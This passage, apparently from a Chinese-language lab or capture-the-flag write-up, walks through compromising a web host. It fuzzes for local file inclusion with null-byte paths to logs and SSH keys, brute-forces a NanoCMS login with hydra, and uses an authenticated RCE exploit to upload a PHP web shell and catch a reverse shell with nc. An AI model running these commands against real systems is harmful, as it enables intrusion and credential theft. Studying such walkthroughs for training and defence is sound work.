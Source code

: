 看到了我们想要的信息，确实存在 %00 截断。

这时就要寻找相关日志文件，形成 web shell 包含，先进行下 FUZZ：

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://101.1.0.166/index.php?page=../../../../../../../..FUZZ%00 -fl 59

http://101.1.0.166/index.php?page=../../../../../../../../var/apache/logs/access_log%00

http://101.1.0.166/index.php?page=../../../../../../../../home/patrick/.ssh/authorized_keys%00
```

使用 FUZZ 后，没找到相关可读取的 web 日志文件，不能触发 web shell；也没有找到上面几个用户 /home 目录中的.ssh 中的相关密钥文件，因为上面的 LFI 前后加了前缀和后缀，也不能使用 php filter 读取 php 配置文件，看不到数据库相关配置，只好看看其他几个扫描出来的 web 目录。

http://101.1.0.166/events/ 是一个 cms 但是看不出来是哪个，也没找到默认的用户名和密码，尝试了常见的弱密码，也不能登陆。

http://101.1.0.166/phpmyadmin 是 phpmyadmin 尝试常见弱密码，也没登陆成功。

http://101.1.0.166/mail/src/login.php 是 SquirrelMail version 1.4.11-1.fc8，存在漏洞，但是需要用户名和密码凭据，进行测试发现都不匹配。

http://101.1.0.166/squirrelmail 与 http://101.1.0.166/mail 显示的内容相同，也没找到可用的登陆凭据。

注意到 80 web 主页上有一个 blog 按钮，对应的链接是 http://101.1.0.166/~andy/ ，打开后发现是一个 NanoCMS，经过查询，发现这个默认的用户凭据是 admin:demo，但是登陆后，提示不对，尝试用 hydra 进行下密码爆破，发现了登陆密码：

```
hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt 101.1.0.166 -f http-post-form "/~andy/data/nanoadmin.php:user=^USER^&pass=^PASS^:F=Username or Password"

[80][http-post-form] host: 101.1.0.166   login: admin   password: shannon
```

使用 admin:shannon 登陆后，发现是 NanoCMS (v0.4-final) ，经过 searchsploit 这个版本存在 rce 漏洞：NanoCMS v0.4 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50997.py

尝试利用,上传自己的 php web shell：

```
searchsploit -m 50997

python3 50997.py -u admin -p shannon -e http://101.1.0.166/~andy ./10.3/8888.php

[+] logged in successfully.
[+] file posted.
[i] if successful, file location should be at:
http://101.1.0.166/~andy/data/pages/46a10c84.php
[i] making web request to uploaded file.
[i] check listener if reverse shell uploaded.
```

kali 监听 8888 端口，访问上面的后门链接，触发反弹 shell：

```
nc -lvnp 8888

curl http://101.1.0.166/~andy/data/pages/46a10c84.php
```

